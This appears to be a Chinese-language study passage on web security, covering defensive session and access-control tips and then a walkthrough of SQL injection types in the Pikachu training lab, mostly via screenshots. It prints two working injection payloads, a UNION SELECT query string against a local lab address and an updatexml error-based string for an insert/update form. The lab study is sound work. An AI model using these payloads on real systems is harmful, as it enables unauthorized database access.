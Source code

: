 **关于安全的会话管理(避免会话被利用) :**

1.不要在客户端端保存敏感信息(比如身份认证信息) ; 

2.测试直接关闭，退出时，的会话过期机制;

3.设置会话过期机制,比如15分钟内无操作，则自动登录超时; 

**访问控制安全管理:**

1.敏感信息的修改时需要对身份进行二次认证，比如修改账号时，需要判断旧密码;

2.敏感信息的修改使用post，而不是get ;

3.通过http头部中的referer来限制原页面

**增加验证码:**

一般用在登录(防暴力破解)，也可以用在其他重要信息操作的表单中(需要考虑可用性)

## SQL注入

### 数字型注入

是一个post类型的注入，抓包，注入点在id

![image-20211209102259562](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201248068.png)

### 字符型注入

记得要在后面加注释符号

![image-20211209104303938](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201248861.png)

### 搜索型注

payload：http://10.0.1.229/pikachu/vul/sqli/sqli_search.php?name=name=-1' union select 1,version(),database()--+ &submit=%E6%90%9C%E7%B4%A2

![image-20211209104405468](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201248403.png)

### XX型注入

这里需要输个)，闭合括号

![image-20211209105223285](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201248028.png)

![image-20211209105033463](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201248820.png)

### insert/update注入

抓个注册的包

修改payload：

```
123' or updatexml(1,concat(0x7e,database()),0) or'
```
